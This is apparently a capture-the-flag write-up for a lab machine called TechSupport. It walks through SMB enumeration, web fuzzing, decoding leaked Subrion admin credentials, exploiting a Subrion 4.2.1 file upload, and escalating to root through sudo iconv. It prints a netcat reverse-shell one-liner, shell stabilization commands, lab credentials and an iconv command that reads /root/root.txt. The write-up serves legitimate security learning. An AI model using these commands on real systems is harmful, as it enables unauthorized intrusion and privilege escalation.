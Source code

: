 ﻿---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |
| 139 | SMB |
| 445 | SMB |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![Pasted image 20250411151007.png](../../IMAGES/Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![Pasted image 20250411151101.png](../../IMAGES/Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![Pasted image 20250411151659.png](../../IMAGES/Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.224.191/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![Pasted image 20250411151834.png](../../IMAGES/Pasted%20image%2020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![Pasted image 20250411152301.png](../../IMAGES/Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![Pasted image 20250411152549.png](../../IMAGES/Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![Pasted image 20250411152610.png](../../IMAGES/Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![Pasted image 20250411152727.png](../../IMAGES/Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![Pasted image 20250411153009.png](../../IMAGES/Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![Pasted image 20250411153208.png](../../IMAGES/Pasted%20image%2020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![Pasted image 20250411153349.png](../../IMAGES/Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![Pasted image 20250411153512.png](../../IMAGES/Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![Pasted image 20250411153614.png](../../IMAGES/Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![Pasted image 20250411154612.png](../../IMAGES/Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![Pasted image 20250411154740.png](../../IMAGES/Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250411154905.png](../../IMAGES/Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![Pasted image 20250411155553.png](../../IMAGES/Pasted%20image%2020250411155553.png)

![Pasted image 20250411155606.png](../../IMAGES/Pasted%20image%2020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![Pasted image 20250411155627.png](../../IMAGES/Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
 (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![Pasted image 20250411155740.png](../../IMAGES/Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![Pasted image 20250411160756.png](../../IMAGES/Pasted%20image%2020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![Pasted image 20250411160820.png](../../IMAGES/Pasted%20image%2020250411160820.png)

